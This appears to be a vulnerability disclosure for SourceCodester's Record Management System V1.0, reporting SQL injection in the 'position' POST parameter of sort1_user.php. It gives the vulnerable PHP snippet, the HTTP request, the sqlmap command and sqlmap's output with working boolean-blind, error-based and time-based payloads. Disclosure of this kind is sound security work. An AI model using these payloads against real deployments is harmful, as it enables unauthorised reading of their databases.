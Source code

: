 ### VUL_AUTHOR:netmanzhang
# Record Management System - SQL Injection on (sort1_user.php position parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 

Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
sort1_user.php 

On this page, position parameter is vulnerable to SQL Injection Attack 
## Source code(Personnel_record_management_system/sort1_user.php):
```
$position=$_POST['position'];
$name_query=mysqli_query($conn,"select * from position where position='$position'")or die(mysqli_error());
$query_row=mysqli_fetch_array($name_query);
```
## Proof of vulnerability(Verify using the sqlmap tool):
### Request:
```
POST /Personnel_record_management_system/sort1_user.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 142
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=52388hjgjeif4bl4r5sqp2bmpm
Origin: http://localhost
Referer: http://localhost/Personnel_record_management_system/sort_user.php
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

filter1=&position=Sort+Personnel+by+Position
```
#### -> sqlmap -r 1.txt(above request package) --batch
## Output:
```
---
Parameter: position (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: filter1=&position=Sort Personnel by Position' OR NOT 7785=7785#

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: filter1=&position=Sort Personnel by Position' OR (SELECT 1239 FROM(SELECT COUNT(*),CONCAT(0x716b6a7071,(SELECT (ELT(1239=1239,1))),0x716b627171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- hkZo

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: filter1=&position=Sort Personnel by Position' AND (SELECT 6538 FROM (SELECT(SLEEP(5)))pXxT)-- XFHL
---
```
